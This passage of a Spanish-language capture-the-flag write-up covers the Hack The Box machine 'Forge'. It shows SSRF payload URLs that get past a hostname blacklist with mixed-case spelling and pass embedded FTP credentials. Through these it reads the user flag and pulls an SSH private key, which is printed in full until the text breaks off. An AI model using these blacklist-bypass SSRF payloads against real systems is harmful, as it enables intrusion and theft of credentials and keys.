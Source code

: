 ```bash
 * The /upload endpoint has been configured for easy scripting of uploads,
      and for uploading an image, one can simply pass a url with ?u=<url>.
```

Podemos hacer esto para burlar el **blacklist** `http://AdMiN.fOrGE.hTb/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB` 

Y con esto ya podemos ver la `user.txt`

```bash
❯ curl -s -X GET "http://forge.htb/uploads/XEo1XlQf1qREkA1esPAi"
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Jun 10 19:16 user.txt
```

## User.txt

Pues bueno gracias a la vulnerabilidad **SSRF** y a todo esto podemos listar la **user.txt**

`http://AdMiN.fOrGE.hTb/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/user.txt`

Y hay vemos la primer flag

```bash
❯ curl -s -X GET "http://forge.htb/uploads/knrJZ3lBEchwWQ06Qres"
564ac6050026c6ca13de33c622b689a4
```

## Shell as user 

Como la `user.txt` esta en el directorio personal del usuario y podemos listar contenido por que nos estamos autenticando es ver su `id_rsa` para conectarnos por **SSH** 

`http://AdMiN.fOrGE.hTb/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/.ssh/id_rsa`

Una vez lo subimos vemos que funciona 

```bash
❯ curl -s -X GET "http://forge.htb/uploads/wqnIT8xF7oTJHQtoqZNH"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZIO+Qywfgnftqo5as+orHW/w1WbrG6i6B7Tv2PdQ09NixOmtHR3
rnxHouv4/l1pO2njPf5GbjVHAsMwJDXmDNjaqZfO9OYC7K7hr7FV6xlUWThwcKo0hIOVuE
7Jh1d+jfpDYYXqON5r6DzODI5WMwLKl9n5rbtFko3xaLewkHYTE2YY3uvVppxsnCvJ/6uk
r6p7bzcRygYrTyEAWg5gORfsqhC3HaoOxXiXgGzTWyXtf2o4zmNhstfdgWWBpEfbgFgZ3D
WJ+u2z/VObp0IIKEfsgX+cWXQUt8RJAnKgTUjGAmfNRL9nJxomYHlySQz2xL4UYXXzXr8G
mL6X0+nKrRglaNFdC0ykLTGsiGs1+bc6jJiD1ESiebAS/ZLATTsaH46IE/vv9XOJ05qEXR
GUz+aplzDG4wWviSNuerDy9PTGxB6kR5pGbCaEWoRPLVIb9EqnWh279mXu0b4zYhEg+nyD
K6ui/nrmRYUOadgCKXR7zlEm3mgj4hu4cFasH/KlAAAFgK9tvD2vbbw9AAAAB3NzaC1yc2
EAAAGBAJ2SDvkMsH4J37aqOWrPqKx1v8NVm6xuouge079j3UNPTYsTprR0d658R6Lr+P5d
aTtp4z3+Rm41RwLDMCQ15gzY2qmXzvTmAuyu4a+xVesZVFk4cHCqNISDlbhOyYdXfo36Q2
GF6jjea+g8zgyOVjMCypfZ+a27RZKN8Wi3sJB2ExNmGN7r1aacbJwryf+rpK+qe283EcoG
K08hAFoOYDkX7KoQtx2qDsV4l4Bs01sl7X9qOM5jYbLX3YFlgaRH24BYGdw1ifrts/1Tm6
dCCChH7IF/nFl0FLfESQJyoE1IxgJnzUS/ZycaJmB5ckkM9sS+FGF1816/Bpi+l9Ppyq0Y
JWjRXQtMpC0xrIhrNfm3OoyYg9REonmwEv2SwE07Gh+OiBP77/VzidOahF0RlM/mqZcwxu
MFr4kjbnqw8vT0xsQepEeaRmwmhFqETy1SG/RKp1odu/Zl7tG+M2IRIPp8gyurov565kWF
DmnYAil0e85RJt5oI+IbuHBWrB/ypQAAAAMBAAEAAAGALBhHoGJwsZTJyjBwyPc72KdK9r
rqSaLca+DUmOa1cLSsmpLxP+an52hYE7u9flFdtYa4VQznYMgAC0HcIwYCTu4Qow0cmWQU
xW9bMPOLe7Mm66DjtmOrNrosF9vUgc92Vv0GBjCXjzqPL/p0HwdmD/hkAYK6YGfb3Ftkh0
2AV6zzQaZ8p0WQEIQN0NZgPPAnshEfYcwjakm3rPkrRAhp3RBY5m6vD9obMB/DJelObF98
yv9Kzlb5bDcEgcWKNhL1ZdHWJjJPApluz6oIn+uIEcLvv18hI3dhIkPeHpjTXMVl9878F+
kHdcjpjKSnsSjhlAIVxFu3N67N8S3BFnioaWpIIbZxwhYv9OV7uARa3eU6miKmSmdUm1z/
wDaQv1swk9HwZlXGvDRWcMTFGTGRnyetZbgA9vVKhnUtGqq0skZxoP1ju1ANVaaVzirMeu
DXfkpfN2GkoA/ulod3LyPZx3QcT8QafdbwAJ0MHNFfKVbqDvtn8Ug4/yfLCueQdlCBAAAA
wFoM1lMgd3jFFi0qgCRI14rDTpa7wzn5QG0HlWeZuqjFMqtLQcDlhmE1vDA7aQE6fyLYbM
0sSeyvkPIKbckcL5YQav63Y0BwRv9npaTs9ISxvrII5n26hPF8DPamPbnAENuBmWd5iqUf
FDb5B7L+sJai/JzYg0KbggvUd45JsVeaQrBx32Vkw8wKDD663agTMxSqRM/wT3qLk1zmvg
NqD51AfvS/NomELAzbbrVTowVBzIAX2ZvkdhaNwHlCbsqerAAAAMEAzRnXpuHQBQI3vFkC
```